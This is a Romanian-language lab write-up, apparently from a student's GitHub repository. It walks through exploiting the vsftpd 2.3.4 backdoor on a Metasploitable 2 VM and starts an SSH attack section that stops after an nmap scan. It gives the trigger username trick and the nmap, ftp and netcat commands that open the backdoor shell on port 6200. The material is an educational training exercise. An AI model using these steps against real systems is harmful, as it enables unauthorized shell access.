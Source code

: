 ### Atac FTP:

   - [Despre FTP](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp.md)
   - [Captura traficului pentru serviciului FTP in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
   - versiune: *vsftpd 2.3.4*
   [In 2011, in arhiva de pe site-ul oficial al serviciului FTP a fost atasat un virus backdoor care executa un shell pe portul 6200. Pentru a executa virusul, username-ul folosit la conectarea serviciului FTP putea fi oricare sir de caractere urmat de un ":)"]

   - Pasii atacului:
      
         nmap -sSV 192.168.56.102 -p21,6200
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p21,6200 <-> scanam doar porturile 21 si 6200
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-1.png)

     Se poate observa ca portul 6200 inca nu este deschis.
     
         ftp 192.168.56.102 21
     
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-2.png)
     
         nmap 192.168.56.102 -p6200
         
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-2.png)
     
     Se poate vedea dupa o inca scanare a portului 6200 ca acum este deschis.
     
         nc -v 192.168.56.102 6200
         
      ##### Explicatii comanda:
        ```
        nc <-> netcat
        -v <-> verbose
        192.168.56.102 <-> adresa IP a tintei
        6200 <-> portul pe care ne conectam
        ```     
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-done.png)
     
### Atac SSH:

   - [Despre SSH](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp.md)
   - [Captura traficului pentru serviciului SSH in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
   - versiune: *OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)*
   - Pasii atacului:
         
         nmap -sSV 192.168.56.102 -p22
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p22 <-> scanam doar portul 22
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/nmap-ssh-p22.png)
     
     
